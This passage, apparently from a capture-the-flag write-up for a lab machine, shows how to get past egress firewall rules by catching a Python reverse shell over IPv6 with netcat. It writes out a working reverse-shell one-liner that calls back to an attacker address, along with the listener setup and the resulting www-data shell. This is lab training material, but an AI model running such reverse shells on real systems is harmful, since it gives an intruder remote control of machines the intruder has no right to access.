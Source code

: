 Our standard reverse shell payloads and other means of connecting back to our attacking machine hang (`curl`, `wget` etc), this indicates that there is a firewall or iptable rules in place blocking our connections. There are a few things we can also test to see the bounds of the iptables rules, these include trying UDP ports or IPv6 connections.

The default `nc` is not able to create an IPv6 listener.  We can verify this by setting up a listener and viewing our netstat
```
root@kali: nc -nlvp 443
...
root@kali: netstat -an | grep LISTEN
netstat -an | grep LISTEN 
tcp       0      0 0.0.0.0:443                  :::*                    LISTEN   
```

In order to listen on tcp6 we need to install the openbsd version of netcat with `apt-get install netcat-openbsd`. Once we have that installed we can use it to listen on IPv6:
```
root@kali: nc.openbsd -6 -nlvp 443 
```

In another terminal we can verify it with the same `netstat` command
```
root@kali: netstat -an | grep LISTEN 
tcp6       0      0 :::443                  :::*                    LISTEN    
```

Now to get our python reverse shell to run on IPv6 we need to change the socket type from `AF_INET` to `AF_INET6`. Once we have done that, we update the attacker IP to be the IPv6 and our final command comes out to be:
```
command=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::100a",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'; ping -c 1 127.0.0.1
```

and we get a reverse shell as `www-data`:
```
root@kali: nc.openbsd -6 -nlvp 443 
Listening on [::] (family 10, port 117499167)
Connection from dead:beef::250:56ff:fea4:92ba 35944 received!
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Now we use our standard `python -c 'import pty; pty.spawn("/bin/bash")'` to get a bash shell and see if we can run `sudo`:
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@Mischief:/var/www/html$ sudo ls
sudo ls
sudo: unable to resolve host Mischief: Resource temporarily unavailable
[sudo] password for root: 
```
